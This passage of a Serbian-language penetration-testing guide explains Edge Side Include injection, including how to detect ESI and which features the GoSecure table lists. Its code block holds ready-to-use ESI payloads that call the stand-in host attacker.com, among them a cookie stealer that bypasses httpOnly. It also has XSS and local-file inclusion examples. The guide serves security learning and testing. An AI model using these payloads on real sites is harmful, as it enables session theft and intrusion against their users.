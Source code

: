## Edge Side Inclusion

Postoji problem sa **keširanjem informacija ili dinamičkih aplikacija** jer se deo sadržaja može **promeniti** do sledećeg puta kada se sadržaj preuzme. To je ono što se koristi **ESI** kako bi se označio dinamički sadržaj koji treba generisati pre slanja keširane verzije.\
Ako **napadač** uspe da **ubaci ESI oznaku** unutar keširanog sadržaja, onda bi mogao da **ubaci proizvoljni sadržaj** u dokument pre nego što ga pošalje korisnicima.

### Detekcija ESI-a

Sledeći **header** u odgovoru sa servera znači da server koristi ESI:

```
Surrogate-Control: content="ESI/1.0"
```

Ako ne možete pronaći ovaj zaglavlje, server **možda i dalje koristi ESI**.\
Takođe se može koristiti **slepa eksploatacijska metoda** jer bi zahtev trebao stići na server napadača:

```javascript
// Basic detection
hell<!--esi-->o
// If previous is reflected as "hello", it's vulnerable

// Blind detection
<esi:include src=http://attacker.com>

// XSS Exploitation Example
<esi:include src=http://attacker.com/XSSPAYLOAD.html>

// Cookie Stealer (bypass httpOnly flag)
<esi:include src=http://attacker.com/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```

### ESI eksploatacija

[GoSecure je kreirao](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/) tabelu kako bi razumeli moguće napade koje možemo pokušati protiv različitog softvera koji podržava ESI, u zavisnosti od podržane funkcionalnosti:

* **Includes**: Podržava direktivu `<esi:includes>`
* **Vars**: Podržava direktivu `<esi:vars>`. Korisno za zaobilaženje XSS filtera
* **Cookie**: Kolačići dokumenta su dostupni ESI mašini
* **Upstream Headers Required**: Surrogate aplikacije neće obrađivati ESI izjave osim ako izvorna aplikacija ne obezbedi zaglavlja
* **Host Allowlist**: U ovom slučaju, ESI uključivanje je moguće samo sa dozvoljenih servera, što čini SSRF, na primer, mogućim samo protiv tih servera
